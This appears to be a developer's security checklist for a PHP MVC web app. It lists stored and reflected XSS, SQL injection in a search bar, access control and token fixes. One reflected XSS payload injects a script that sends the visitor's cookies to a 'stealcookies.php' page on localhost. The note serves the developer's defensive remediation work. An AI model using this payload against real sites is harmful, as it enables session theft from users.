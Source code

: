- XSS: 
	+ stored XSS -> use htmlentities (done)
		+ payload: 

		```


		```

		+ section need to fix: 
			+ review
			+ profile
			+ account in admin dashboard
			
	+ reflected XSS -> set httponly: true | x-xss-protection header is enabled??
		+ payload: 

		```
		localhost/bakya_mvc?controller=<script>window.location.href="http://localhost/EXPLOIT/stealcookies.php?c=".concat(document.cookie);</script>

		```

- SQL injection: 
	+ product search bar 

- restricted access: disallow restricted url

- invalid token: give timestamp for token

- avoid error when url is invalid